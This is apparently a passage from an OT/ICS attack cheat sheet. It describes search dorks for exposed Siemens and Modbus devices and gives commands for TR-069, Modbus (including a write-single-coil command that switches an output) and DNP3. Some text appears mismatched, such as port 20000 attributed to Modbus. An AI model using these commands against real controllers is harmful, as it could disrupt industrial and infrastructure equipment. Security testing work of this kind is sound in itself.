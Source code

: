 This dork searches for Siemens SIMATIC S7 PLCs, which are used in industrial automation and control.


```
"port:20000"
```


This dork searches for the Schneider Electric Modicon Modbus Protocol, which is used in various industrial control applications.



### TR-069

TR-069 is a protocol used by ISPs to remotely manage customer routers. Attackers can exploit vulnerabilities in this protocol to take control of the router.


```
python3 genieacs.py --list
```

### Modbus

Modbus is a protocol used in industrial control systems. Attackers can exploit vulnerabilities in Modbus to take control of these systems.

```
modscan.py -a <target> -p 502 -t 0 -r 1-100
```

or

This command targets the Modbus protocol and attempts to trigger a "write single coil" command to turn on a specific output on the target device.


```
"modscan.py --ip-address <target IP> --port 502 --unit 1 --function-code 5"
```

This command uses the modpoll tool to query the Modbus register at address 1 of a device with the IP address 192.168.0.10. The -t 4 option specifies that the tool should use the Modbus function code 4, which is used for reading input registers. An attacker can use this command to extract data from an OT system or to test if it is vulnerable to Modbus protocol attacks.


```
modpoll -m tcp -a 1 -r 1 -c 1 -t 4 -1 192.168.0.10
```


### DNP3

DNP3 is a protocol used in SCADA systems. Attackers can exploit vulnerabilities in DNP3 to take control of these systems.

```
python3 dnp3-master.py -i eth0 -a <target> -p 20000 -o 3 -c 1 -v
```
